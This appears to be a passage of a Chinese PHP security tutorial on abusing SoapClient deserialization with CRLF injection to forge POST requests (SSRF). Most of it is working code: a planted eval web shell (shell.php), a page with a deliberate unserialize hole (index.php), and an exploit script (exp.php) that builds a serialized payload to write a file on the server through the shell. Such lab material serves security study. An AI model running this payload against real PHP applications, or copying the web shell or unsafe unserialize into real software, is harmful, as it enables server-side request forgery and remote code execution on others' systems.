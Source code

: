 <img src="./images/2.png" alt="">


> 正常情况下的`SoapClient`类调用一个不存在的函数会去调用`__call()`方法，发出请求，`SoapClient`发出的请求包的`user_agent`是完全可控的，结合`CRLF注入`可以构造一个完全可控的`POST请求`，因为`POST请求`最关键的`Content-Length`和`Content-Type`都在`user_agent`之下；如果是`GET请求`就简单得多，只需要构造好`location`就可以，需要注意的是`SoapClient`只会发出请求而不会收到响应

> 测试代码：
```php
[+] shell.php
<?php
    if($_SERVER['REMOTE_ADDR'] == '127.0.0.1') {
        @eval($_REQUEST['cmd']);
    }
?>

[+] index.php
<?php
    $demo = unserialize($_GET['h3rmesk1t']);
    $demo->d1no();
?>

[+] exp.php
<?php
    $target = 'http://127.0.0.1/Demo/shell.php';
    $post_string = 'cmd=file_put_contents("C:/Tools/phpstudy_pro/WWW/Demo/info.php", "<?php phpinfo();?>");';
    $headers = array(
        'X-Forwarded-For: 127.0.0.1',
        'Cookie: aaaa=ssss'
    );
    $user_agent = 'aaa^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '.(string)strlen($post_string).'^^^^'.$post_string;
    $options = array(
        'location' => $target,
        'user_agent'=> $user_agent,
        'uri'=> "aaab"
    );

    $b = new SoapClient(null, $options);

    $aaa = serialize($b);
    $aaa = str_replace('^^', '%0d%0a', $aaa);
    $aaa = str_replace('&', '%26', $aaa);
    echo $aaa;
?>
```